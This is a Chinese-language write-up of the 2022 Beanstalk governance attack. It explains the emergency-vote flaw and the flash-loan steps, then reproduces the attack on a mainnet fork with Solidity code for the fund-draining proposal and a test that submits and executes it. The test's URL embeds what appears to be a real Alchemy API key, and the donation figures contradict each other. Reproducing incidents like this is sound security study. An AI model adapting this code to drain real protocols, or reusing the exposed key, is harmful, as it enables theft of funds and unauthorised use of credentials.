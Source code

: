 ### The Beanstalk Hack 

2022年4月，Beanstalk被治理攻击，损失了181w$。并且，黑客捐赠了25万给了乌克兰战争基金地址。

起因是治理协议中含有`emergencyCommit`紧急执行函数，周期为一天，当有2/3的赞成票时即可立即执行，如下图。

![image](./img/gov_1.jpg)

首先，黑客进行了恶意提案，提案内容为偷走合约中所有的钱，下图标出了恶意提案地址和提案执行签名。

![image](./img/gov_2.png)

而再在治理协议中，投票权重由向Beanstalk协议的Diamond contract的捐赠决定。于是在一天之后，黑客发起了攻击。
黑客的主要攻击流程为：

- 通过闪电贷获得DAI，USDT，USDC
- 再次通过uniswap，sushiswap 闪电贷得到BEAN 和 LUSD
- 使用DAI，USDT，USDC换取 3CRV
- 再将3CRV，LUSD，BEAN换取BEAN3CRV-f，BEANLUSD-f
- 将BEAN3CRV-f，BEANLUSD-f存入Diamond 中
- **对BIP18恶意提案进行投票**
- 执行恶意提案，将BEAN3CRV-f，BEANLUSD-f，uni-v2发送给黑客合约
- 通过兑换将BEAN3CRV-f，BEANLUSD-f换取USDT，USDC，DAI
- burn uni-v2换取ETH和BEAN
- 偿还闪电贷，再将多余的代币换为ETH，黑客获利
- *黑客还发送了25000USDT给了乌克兰战争基金地址*

## 复现

### 恶意提案
```solididy
// SPDX-License-Identifier: MIT
pragma solidity 0.8.10;

import "forge-std/Test.sol";
import {IERC20} from "../interfaces/IERC20.sol";

contract BIP18 is Test {
    address constant BEAN = address(0xDC59ac4FeFa32293A95889Dc396682858d52e5Db);
    address constant BEAN_STALK = address(0xC1E088fC1323b20BCBee9bd1B9fC9546db5624C5);
    address constant BEANCRV_F =
        address(0x3a70DfA7d2262988064A2D051dd47521E43c9BdD);
    address constant BEANLUSD_F =
        address(0xD652c40fBb3f06d6B58Cb9aa9CFF063eE63d465D);
    address constant PROPOSER =
        address(0x1c5dCdd006EA78a7E4783f9e6021C32935a10fb4);
    address constant UNI_V2_BEAN_LP =
        address(0x87898263B6C5BABe34b4ec53F22d98430b91e371);
    address immutable EXPLOIT_CONTRACT;

    constructor(address _exploitAddr) {
        EXPLOIT_CONTRACT = _exploitAddr;
    }

    function init() external {
        console.log("exploit contract address: ", EXPLOIT_CONTRACT);
        IERC20(BEAN).transfer(EXPLOIT_CONTRACT, IERC20(BEAN).balanceOf(BEAN_STALK));
        IERC20(UNI_V2_BEAN_LP).transfer(EXPLOIT_CONTRACT, IERC20(UNI_V2_BEAN_LP).balanceOf(BEAN_STALK));
        IERC20(BEANCRV_F).transfer(EXPLOIT_CONTRACT, IERC20(BEANCRV_F).balanceOf(BEAN_STALK));
        IERC20(BEANLUSD_F).transfer(EXPLOIT_CONTRACT, IERC20(BEANLUSD_F).balanceOf(BEAN_STALK));
        // 偷走所有tokens & LP tokens
    }
}
```

### 恶意提案执行

```solidity
pragma solidity 0.8.10;

import "../src/BIP18.sol";
import "../src/attack.sol";
import "forge-std/Test.sol";
import "../interfaces/IUniswapV2Router.sol";

contract BeanExp is Test{
    IBeanStalk constant BEAN_STALK = IBeanStalk(0xC1E088fC1323b20BCBee9bd1B9fC9546db5624C5);
    address constant BEAN = address(0xDC59ac4FeFa32293A95889Dc396682858d52e5Db);
    IUniswapV2Router constant uniswapv2 = IUniswapV2Router(payable(0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D));
    string  url = "https://eth-mainnet.g.alchemy.com/v2/qb4zUY4FDtmZMhaAEHblyllY9gc1nj2S";
    uint256 forkId;
    BIP18 bip18;
    BeanExploit beanexp;
    function setUp() external {
        // 恶意提案高度  14595906 
        // 攻击开始高度  14602789
        forkId = vm.createFork(url, 14595905);
        vm.selectFork(forkId);
        }

    function testexp() public{
        address[] memory path = new address[](2);
        path[0] = uniswapv2.WETH();
        path[1] = BEAN;
        uniswapv2.swapExactETHForTokens{value: 75 ether}(
            0,
            path,
            address(this),
            block.timestamp + 120
        );
        console.log(
            "swap ETH -> BEAN , Bean balance of attacker:",
            IERC20(BEAN).balanceOf(address(this))/10**6
        );
        
        IERC20(BEAN).approve(address(BEAN_STALK), type(uint256).max);
        BEAN_STALK.depositBeans(IERC20(BEAN).balanceOf(address(this)));
        beanexp = new BeanExploit();
        bip18 = new BIP18(address(beanexp));
        IDiamondCut.FacetCut[] memory _cut = new IDiamondCut.FacetCut[](0);
        BEAN_STALK.propose(_cut, address(bip18), abi.encodeWithSignature("init()"), 3);
        console.log("Successfully proposed: ", address(bip18));

        vm.warp(block.timestamp + 1 days);
        beanexp.exploit();
    }
    
}

```

这里使用了forge的warp cheatcode，可以将timpstamp设置到一天之后，模拟真实场景。

Expolit合约的代码就是一些闪电贷的Callback，投票并且执行提案，最后将一些token swap回ETH，这里不再赘述。

